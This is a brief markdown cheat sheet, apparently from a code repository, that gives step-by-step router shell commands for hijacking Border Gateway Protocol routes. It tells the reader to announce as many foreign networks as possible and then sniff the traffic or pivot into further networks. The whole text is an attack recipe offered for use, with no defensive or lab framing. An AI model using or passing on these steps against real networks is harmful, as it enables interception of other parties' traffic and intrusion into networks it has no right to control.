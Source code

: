 # BORDER GATEWAY PROTOCOL HIJACKING (BGP)

### STEPS/COMMANDS:

#### 1) vtysh ( Run BGP config shell )

#### 2) config terminal

#### 3) router bgp NUM

#### 4) network HOST/CIDR (You can try to route as many networks as you can find)

#### 5) end

#### 6) clear ip bgp *

#### 7) show ip bgp neighbors YOUR_IP advertised-routes (Check on the route)

#### 8) Now you can sniff network traffic, or pivot further through more networks!
